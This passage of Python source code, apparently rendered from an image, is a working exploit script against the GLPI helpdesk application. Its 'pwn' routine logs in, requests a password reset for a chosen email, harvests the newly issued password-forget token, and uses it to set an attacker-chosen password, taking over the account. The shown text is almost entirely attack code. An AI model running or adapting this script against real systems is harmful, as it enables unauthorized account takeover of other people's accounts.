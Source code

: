 ```python
            sys.exit(1)
        
        data = {
            "email": email,
            "update": "Save",
            "_glpi_csrf_token": csrf_token
        }
        
        r = self.session.post('{}/front/lostpassword.php'.format(self.url), data=data)
        return 'An email has been sent' in r.text
    
    
    def change_password(self, email, password, token):
        r = self.session.get('{0}/front/lostpassword.php'.format(self.url), params={'password_forget_token': token})
        try:
            csrf_token = self.extract_csrf(r.text)
        except Exception as e:
            print "[-] Change password error: could not retrieve form data"
            sys.exit(1)
        
        data = {
            "email": email,
            "password": password,
            "password2": password,
            "password_forget_token": token,
            "update": "Save",
            "_glpi_csrf_token": csrf_token
        }
        
        r = self.session.post('{}/front/lostpassword.php'.format(self.url), data=data)
        return 'Reset password successful' in r.text
    
    
    def pwn(self, email, password):
        
        if not self.login():
            print("[-] Login error")
            return
        
        tokens = self.get_forget_token()
        if tokens is None:
            tokens = []
        
        if email:
            if not self.lost_password_request(email):
                print("[-] Lost password error: could not request")
                return
            
            new_tokens = self.get_forget_token()
            
            res = list(set(new_tokens) - set(tokens))
            if res:
                for token in res:
                    if self.change_password(email, password, token):
                        print "[+] Password changed! ;)"
                        return
        
        
        
if __name__ == '__main__':
    
    parser = argparse.ArgumentParser()
```